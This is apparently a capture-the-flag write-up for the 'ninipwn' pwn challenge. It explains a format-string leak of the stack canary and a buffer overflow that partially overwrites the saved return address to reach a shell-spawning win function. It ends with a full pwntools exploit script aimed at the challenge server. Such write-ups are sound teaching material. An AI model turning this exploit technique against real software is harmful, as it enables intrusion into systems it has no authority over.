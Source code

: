 ```yaml
---
layout: post
title: ninipwn
tags: [writeup, pwn]
---
```


## Description
> pwn ^ pwn ^ pwn ^ pwn ^ pwn ^ pwn
> <br>[Attachment](/assets/files/blog/ninipwn/ninipwn)
> ```
> nc 3.75.185.198 7000
> ```

## Writeup
To start this challenge, I first ran the `checksec` command on the provided binary file:

![decomp](/assets/images/blog/ninipwn/checksec.png)

All protections were enabled, so I knew I would have to find a way around at least one of them to solve the challenge. Next, I loaded the binary into Ghidra. The `main` function simply prints out "XOR encryption service", then calls the `encryption_service` function. After looking through the code to get a sense of what it was doing, I cleaned up the code by renaming some variables so that it looked like this:

### `encryption_service`
![encryption_service](/assets/images/blog/ninipwn/encryption_service_decomp.png)

### `encrypt`
![encrypt](/assets/images/blog/ninipwn/encrypt_decomp.png)

Beyond this, there were a few other details of interest. The flag was not contained anywhere in the binary, meaning it would require gaining a shell on the remote system to instead find the flag on the filesystem. To further support this idea, there was a `win` function containing code to spawn a shell when called. My goal was to find a way to jump to this `win` function.

Here's what the program does: first, it asks the user to input the `text_length`, which must be between 0 and 256. Next, it asks for the `key` and prints the key back out to the user. Then, it asks for up to `text_length` bytes of `text` to store in a buffer on the stack. Finally, the program then takes the key provided and "encrypts" the buffer via the `encrypt` function. This XORs the text with the key by repeating the key every 8 bytes.

There are two critical places where the vulnerabilities lie. First, `key` and `text_length` are global variables, meaning they are not stored on the stack but rather in the `.bss` section of the binary. When the program accepts input to be used as the `key`, it accepts 10 bytes, which is 2 bytes greater than the allocated space for `key`. Since the item next to `key` is `text_length`, this causes a 2-byte overflow into `text_length`, allowing us to control the two upper-most, or least-significant bytes of `text_length`. Since the program asks for `key` after it asks for `text_length`, we can use this to bypass the check for `text_length` and write values of up to `0xffff` (decimal 65535), meaning we can perform a buffer overflow.

However, by itself, this vulnerability is not enough to gain a shell. While it does allow us to use a buffer overflow to overwrite the value of the saved `%rip`, it doesn't provide us with a way to overcome the stack canary. This is where the second vulnerability comes in. In line 21 of `encryption_service`, `printf` is called with user-controlled input as its only argument. The correct way to write this statement would have been `printf("%s", (char *)&key)`- notice the omission of the `"%s"`. This oversight allows us to perform what is known as a [format string attack](https://owasp.org/www-community/attacks/Format_string_attack). Without the `"%s"`, the C programming language treats the value of `key` as the format string. In normal operation, this will still produce the intended output, but as an attacker, we can pass in format specifiers like `"%p"` as the value of `key` to leak data from the stack. So what exactly would passing `"%p"` print? It does exactly what it normally does, which is print the second argument to `printf` as a pointer, or in other words, `%rdi` (the x86 register for the second argument). By extension, we can add more `%p`s to leak other "arguments", and at the 6th `%p`, start to leak from the top of the stack (since x86 assembly stores arguments beyond the 6th on the stack). The C notation for this would be `"%6$p"`. However, we don't just want the top value of the stack- we want the stack canary. To calculate the offset of the stack canary from the top of the stack as defined at the `printf`, I set a breakpoint in GDB after the `printf` statement and ran `info frame` to find where the canary was stored in the current frame. Then, I calculated the difference between `%rsp` and the location of the canary and divided it by 8 to get the number of "pointers" I needed to offset by. The result was 33, so my format string needed to be `"%39$p"` (33 + 6 to start at the top of the stack). Testing this in GDB confirmed that the program did indeed leak the correct value.

![canary](/assets/images/blog/ninipwn/canary.png)

Now that I had the information I needed, all that remained was to craft the actual exploit. Since the goal was to gain a shell using the provided `win` function, I needed to overwrite the value of the stored `%rip` with the address of the `win` function. However, with PIE turned on, that address would be randomized each time the program was ran, which would require another leak to know in its entirety, except for the last 3 hex characters (12 bits). Instead, to avoid having to know the full address, I decided to perform a partial overwrite, which would utilize the existing stored address. The address of the `win` function and the address of `main` which `encryption_service` would normally return to, offset `0x00101433` and `0x001014f8` respectively, were close enough that they only differed by their last byte, even with PIE turned on. This meant I could perform an overwrite of only the least-significant/upper-most byte. Since the "overwrite" was actually an XOR function, this meant making the first byte of the key the value needed to XOR with `0xf8` to result in `0x33`, which is `0xcb`.

## Solve

```
from pwn import *
import time


binary = "./ninipwn"
elf = context.binary = ELF(binary, checksec=False)

# break *(encryption_service+0x165)
gs = """
break *(encryption_service+0x11a)
continue
"""

# `python3 solve.py REMOTE`
if args.REMOTE:
    p = remote("3.75.185.198", 7000)

# `python3 solve.py GDB`
elif args.GDB:
    context.terminal = ["tmux", "splitw", "-h", "-l", "120"]
    p = gdb.debug(binary, gdbscript=gs)

# `python3 solve.py`
else:
    p = elf.process()

# overwrite buffer + canary + saved rbp + least-significant byte of saved rip
overwrite = 264 + 8 + 8 + 1
key = (b'\xcb' + b'%39$p').ljust(8, b'\x00')

# can overflow KEY by 2 bytes to control this value up to 0xffff
p.sendlineafter(b'Text length: ', b'255')

p.sendafter(b'Key: ', key + overwrite.to_bytes(2, 'little'))

p.recvuntil(b'Key selected: \xcb')
canary = int(p.recvline(keepends=False), 16)
# print("RECEIVED CANARY:", hex(canary))

p.sendafter(b"Text: ", b'\x00'*(264) + p64(canary ^ u64(key)))
p.recvuntil(b'Encrypted output: ')
p.recv()

p.interactive()
```

![solve](/assets/images/blog/ninipwn/solve.png)
